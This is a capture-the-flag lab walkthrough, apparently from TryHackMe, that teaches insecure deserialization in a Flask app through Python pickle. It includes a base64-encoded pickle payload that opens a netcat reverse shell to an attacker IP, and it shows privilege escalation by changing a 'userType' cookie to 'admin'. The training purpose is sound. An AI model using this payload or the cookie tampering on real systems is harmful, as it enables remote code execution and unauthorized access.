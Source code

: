 
- **The Exploit** (Example)

	Now I'm not going to leave you hanging dry here. First, we need to set up a netcat listener on our Kali. If you are a subscriber, you can control your own [in-browser TryHackMe Kali Machine](https://tryhackme.com/my-machine).

	![](https://i.imgur.com/Ftsfnq0.png)

	Because the code being deserialized is from a base64 format, we cannot just simply spawn a reverse shell. We must encode our own commands in base64 so that the malicious code will be executed. I will be detailing the steps below with provided material to do so.  

	Once this is complete, [copy-and-paste the source code from this python file (pickelme.py)](https://assets.tryhackme.com/additional/cmn-owasptopten/pickleme.py) to your kali and modify the source code to replace your "YOUR_IP" with your IP. [This can be obtained via the Access page](https://tryhackme.com/access).

	1. Create a python file to paste into, I have used "rce.py" for these examples:

	![](https://i.imgur.com/k93pazM.png)

	2. Paste the code from the GitHub site, replacing IP with your IP from the access page

	![](https://i.imgur.com/gfR2lcf.png)

	3. Execute "rce.py" via `python3 rce.py`

	4. Note the output of the command, it will look something similar to this:

	![](https://i.imgur.com/67OUbwN.png)

	5. Copy and paste everything in-between the two speech marks ('DATA'). In my case, I will copy and paste:
	'gASVcgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFdybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTEuMy4yIDQ0NDQgPiAvdG1wL2aUhZRSlC4=`    Yours may look slightly different, just ensure that you copy everything in-between the two speech marks `''`

	6. Paste this into the "encodedPayload" cookie in your browser:

	![](https://i.imgur.com/fZDayjD.png)  

	7. Ensure our netcat listener is still running:

	![](https://i.imgur.com/Ftsfnq0.png)

	8. Refresh the page. It will hang, refer back to your netcat listener:

	![](https://i.imgur.com/WESTagT.png)  

	If you have performed the steps correctly, you will now have a remote shell to your instance. No privilege escalation involved, look for the flag.txt flag!


## What is Deserialization & Serialization?

**Deserialization** is the process of reconstructing a data structure or object from a series of bytes or a string in order to instantiate the object for consumption. This is the reverse process of serialization, i.e., converting a data structure or object into a series of bytes for storage or transmission across devices. To fetch an object state over a wire or read it from persistent storage, a system must be able to deserialize it from raw bytes.

![Deserialization Diagram](https://hazelcast.com/wp-content/uploads/2021/12/deserialization-diagram-800x367-1.png)

Data deserialization is the process of building a data object from a stream of bytes.

![Serialization-Deserialization Diagram](https://hazelcast.com/wp-content/uploads/2021/12/serialization-deserialization-diagram-800x318-1.png)

Serialization and deserialization work together to transform/recreate data objects to/from a portable format.


- **What does this mean?**

	Say you have a password of "password123" from a program that needs to be stored in a database on another system. To travel across a network this string/output needs to be converted to binary. Of course, the password needs to be stored as "password123" and not its binary notation. Once this reaches the database, it is converted or deserialised back into "password123" so it can be stored.

	![](https://i.imgur.com/ZB76mLI.png)

	Insecure deserialization occurs when data from an untrusted party (I.e. a hacker) gets executed because there is no filtering or input validation; the system assumes that the data is trustworthy and will execute it no holds barred.


- **Privilege Escalation from Cookies**

	![](https://i.imgur.com/P8o62li.png)

	Where you will be directed to your profile page. Notice on the right, you have your details.

	![](https://i.imgur.com/6fYd0td.png)

	Right-Click the Page and press "Inspect Element". Navigate to the "Storage" tab.

	![](https://i.imgur.com/1LMFfV0.png)  

  
- **Inspecting Encoded Data**

	You will see here that there are cookies are both plaintext encoded and base64 encoded. The first flag will be found in one of these cookies.


- **Modifying Cookie Values**

	Notice here that you have a cookie named "userType". You are currently a user, as confirmed by your information on the "myprofile" page.

	This application determines what you can and cannot see by your userType. What if you wanted to be come an admin?

	Double left-click the "Value" column of "userType" to modify the contents. Let's change our userType to "admin" and navigate to http://10.10.12.109/admin to answer the second flag.

- **Code Execution from Cookies**

	![](https://i.imgur.com/FwG0TBs.png)


- **What makes this form vulnerable?**

	If a user was to enter their feedback, the data will get encoded and sent to the Flask application (presumably for storage within a database for example). However, the application assumes that any data encoded is trustworthy. But we're hackers. You can only trust us as far as you can fling us (and that's nigh-on impossible online)  

	Although explaining programming is a bit out of scope for this room, it's important to understand what's going on in the snippet below:

	![](https://i.imgur.com/lgomAL9.png)  

	When you visit the "Exchange your vim" URL, A cookie is encoded and stored within your browser - perfect for us to modify! Once you visit the feedback form, the value of this cookie is decoded and then deserialised. Uh oh. In the snippet below, we can see how the cookie is retrieved and then deserialized via `pickle.loads`

	![](https://i.imgur.com/8id81K3.png)

	This vulnerability exploits Python Pickle, which I have attached as reading material at the end of the room. We essentially have free reign to execute whatever we like such as a reverse shell.  